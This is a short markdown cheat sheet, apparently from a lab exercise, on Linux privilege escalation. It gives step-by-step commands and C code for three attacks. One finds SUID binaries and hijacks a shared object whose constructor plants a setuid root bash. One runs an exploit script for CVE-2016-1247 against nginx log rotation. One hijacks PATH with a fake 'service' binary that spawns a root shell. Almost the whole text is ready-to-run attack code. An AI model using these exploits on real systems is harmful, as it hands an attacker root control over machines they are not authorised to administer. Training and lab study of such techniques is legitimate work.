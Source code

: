 ## SUID Exploitation
```sh
find / -type f -perm -04000 -ls 2>/dev/null
```
```c
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
```sh
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/.config/libcalc.c
/usr/local/bin/suid-so
id
```

## Exploiting CVE-2016-1247
```sh
./nginxed-root.sh /var/log/nginx/error.log
```
```sh
invoke-rc.d nginx rotate > /dev/null 2>&1
```

## Symlink & Environment Variable Exploit



* In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
* From the output, make note of all the SUID binaries.
* In command prompt type: `strings /usr/local/bin/suid-env`
* From the output, notice the functions used by the binary.

## Exploitation

* In command prompt type:
```sh
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```
* In command prompt type: 
```sh
gcc /tmp/service.c -o /tmp/service
```
* In command prompt type: 
```sh
export PATH=/tmp:$PATH
```
* In command prompt type: 
```sh
/usr/local/bin/suid-env
```
* In command prompt type: 
```sh
id
```
